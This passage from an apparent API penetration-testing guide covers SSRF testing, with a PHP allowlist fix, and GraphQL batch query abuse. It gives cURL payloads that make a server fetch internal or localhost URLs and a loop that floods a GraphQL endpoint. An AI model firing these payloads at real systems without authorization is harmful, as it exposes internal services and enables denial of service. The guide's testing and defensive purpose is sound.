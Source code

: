 **Objective**: Test for Server-Side Request Forgery (API Top 10 A10:2023).

**Steps**:
1. **Identify Endpoint**:
   - Find endpoints accepting URLs (e.g., `POST /api/fetch`).
2. **Test SSRF**:
   - Send a request with an internal URL.
3. **Analyze Response**:
   - Check for internal data exposure or HTTP 400.

**cURL Commands**:
- **Command 1**: Test SSRF:
  ```bash
  curl -X POST -H "Content-Type: application/json" -H "Authorization: Bearer abc123" --data '{"url": "http://internal.example.com/secret"}' http://example.com/api/fetch
  ```
- **Command 2**: Test local resource:
  ```bash
  curl -X POST -H "Content-Type: application/json" -H "Authorization: Bearer abc123" --data '{"url": "http://localhost:8080/admin"}' http://example.com/api/fetch
  ```

**Example Vulnerable Response**:
```
HTTP/1.1 200 OK
{"data": "Internal secret"}
```

**Remediation**:
- Validate URLs (PHP):
  ```php
  $allowed = ['example.com'];
  if (!in_array(parse_url($url, PHP_URL_HOST), $allowed)) {
    die('Invalid URL');
  }
  ```

**Tip**: Save cURL responses to a file (e.g., `curl ... > ssrf.txt`). Organize findings in a report with timestamps, test descriptions, and evidence of vulnerabilities (e.g., HTTP responses).

### 7. Test GraphQL Batch Query Abuse with cURL

**Objective**: Test for resource exhaustion via batched GraphQL queries (WSTG-APIT-01).

**Steps**:
1. **Craft Batch Query**:
   - Create multiple queries in a single request.
2. **Send Batch**:
   - Use cURL to send the batch query.
3. **Analyze Response**:
   - Check for HTTP 429, delays, or full data return.

**cURL Commands**:
- **Command 1**: Send batch query:
  ```bash
  curl -X POST -H "Content-Type: application/json" -H "Authorization: Bearer abc123" --data '[{"query": "query { users { id } }"}, {"query": "query { posts { id } }"}, {"query": "query { comments { id } }"}]' http://example.com/graphql
  ```
- **Command 2**: Flood with batches:
  ```bash
  for i in {1..10}; do curl -X POST -H "Content-Type: application/json" --data '[{"query": "query { users { id } }"}]' http://example.com/graphql; done
  ```
